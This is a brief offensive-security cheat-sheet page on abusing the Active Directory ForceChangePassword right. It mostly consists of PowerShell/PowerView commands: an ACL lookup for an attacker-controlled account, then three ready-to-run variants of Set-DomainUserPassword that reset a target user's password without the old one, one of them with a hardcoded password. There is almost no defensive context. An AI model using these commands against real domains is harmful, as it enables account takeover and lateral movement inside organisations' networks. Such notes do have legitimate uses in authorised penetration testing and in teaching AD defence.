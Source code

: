 # ForceChangePassword

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

Doing the same with powerview:

```powershell
Set-DomainUserPassword -Identity delegate -Verbose
```

Another method that does not require fiddling with password-secure-string conversion:

```powershell
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

...or a one liner if no interactive session is not available:

```powershell
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
